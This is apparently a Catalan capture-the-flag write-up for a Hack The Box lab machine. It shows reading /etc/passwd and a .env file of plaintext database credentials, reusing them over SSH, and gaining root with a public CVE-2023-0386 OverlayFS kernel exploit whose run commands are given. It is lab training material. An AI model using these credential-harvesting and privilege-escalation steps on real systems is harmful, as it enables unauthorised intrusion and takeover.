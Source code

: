 Només hi ha 3 usuaris que poguem accedir al host: _root_, _www-data_ i _admin_. Per aconseguir la flag d'usuari, hem de poder convertir-nos en l'usuari admin.
````bash
> cat /etc/passwd | grep 'sh$'

root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
````
En el directori on hi ha allotjada la web hi ha un arxiu ocult .env que té les credencials de la base de dades per l'usuari _admin_. Podem intentar autenticar-nos per SSH (per comoditat, ja que tindrem una consola amb millor experiència d'usuari) utilitzant aquestes credencials, per comprovar si hi ha hagut reutilització de contrasenyes.
````bash
> cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
````

I podem veure que sí que n'hi ha hagut.

![image](https://github.com/user-attachments/assets/fdea7bda-92d8-4fb7-87b4-f358cb8392ec)


## Privilege escalation

En la imatge anterior, es veu que la capçalera diu "You have mail". Per tant, mirem el directori de correu de l'usuari _admin_ per comprovar quin correu ha rebut.
````bash
> cat /var/mail/admin

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
````
La vulnerabilitat a la que es refereix és la CVE-2023-0386, un error del kernel de Linux que permet la execució d'un arxiu amb els bits SUID amb privilegis elevats a través de la còpia d'un arxiu no privilegiat a l'Overlay File System. Amb l'exploit del repositori [CVE-2023-0386](https://github.com/puckiestyle/CVE-2023-0386) podem explotar la vulnerabilitat seguint les seves pròpies instruccions. Un cop compilat, obrim dos terminals sota l'usuari _admin_ i executem:

**- Terminal 1:** ./fuse ./ovlcap/lower ./gc

**- Terminal 2:** ./exp

![image](https://github.com/user-attachments/assets/7ee110f0-2d27-408c-a7d3-976ea2d6673e)

I acabariem la màquina tenint privilegis de root sobre el sistema.

